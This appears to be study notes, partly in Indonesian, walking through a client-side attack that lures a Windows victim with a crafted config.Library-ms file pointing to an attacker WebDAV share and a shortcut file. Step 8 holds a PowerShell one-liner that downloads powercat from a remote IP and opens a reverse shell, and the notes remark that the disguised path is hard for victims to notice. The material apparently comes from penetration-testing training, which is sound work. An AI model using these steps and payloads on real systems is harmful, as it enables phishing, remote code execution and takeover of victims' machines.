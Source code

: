 2. RDP to client
3. Open text editor, vscode, notepad, etc.
4. New File, namanya `config.Library-ms`

*Library files consist of three major parts and are written in XML to specify the parameters for accessing remote locations. The parts are General library information, Library properties, and Library locations. Let's build the XML code by adding and explain the tags. We can refer to the Library Description Schema6 for further information. We'll begin by adding the XML and library file's format version.*

```xml config.Library-ms
<?xml version="1.0" encoding="UTF-8"?>
<libraryDescription xmlns="http://schemas.microsoft.com/windows/2009/library">
<name>@windows.storage.dll,-34582</name>
<version>6</version>
<isLibraryPinned>true</isLibraryPinned>
<iconReference>imageres.dll,-1003</iconReference>
<templateInfo>
<folderType>{7d49d726-3c21-4f05-99aa-fdc2c9474656}</folderType>
</templateInfo>
<searchConnectorDescriptionList>
<searchConnectorDescription>
<isDefaultSaveLocation>true</isDefaultSaveLocation>
<isSupported>false</isSupported>
<simpleLocation>
<url>http://<WEB_DAV_IP></url>
</simpleLocation>
</searchConnectorDescription>
</searchConnectorDescriptionList>
</libraryDescription>
```

5. Open di Windows Explorer, akan terlihat test.txt yang kita buat. Sukses kita akses remote share dari windows explorer.

6. Notice di PATH explorernya, itu gk remote, gk ada kyk //<ip>/test.txt. Jadi sulit dinotice oleh victim

*When we re-open our file in Visual Studio Code, we find that a new tag appeared named serialized.23 The tag contains base64-encoded information about the location of the url tag. Additionally, the content inside the url tags has changed from http://192.168.119.2 to \\192.168.119.2\DavWWWRoot. Windows tries to optimize the WebDAV connection information for the Windows WebDAV client24 and therefore modifies it.*

*The library file still works when we double-click it, but due to the encoded information in the serialized tag, it may not be working on other machines or after a restart. This could result in a situation where our client-side attack fails, because Windows Explorer shows an empty WebDAV share.*

7. Create new shortcut (buat reverse shell.lnk)

8. Location itemnya taro revshell kita (gk boleh panjang-panjang)
```cmd
powershell.exe -c "iex (New-Object Net.WebClient).DownloadString('http://192.168.45.168:8000/powercat.ps1');powercat -c 192.168.45.168 -p 1234 -e powershell"
```
9. Taro nama filenya (gk ush tambah .lnk, ntar otomatis), Finish. Double click shortcutnya dan akan dapet shell.
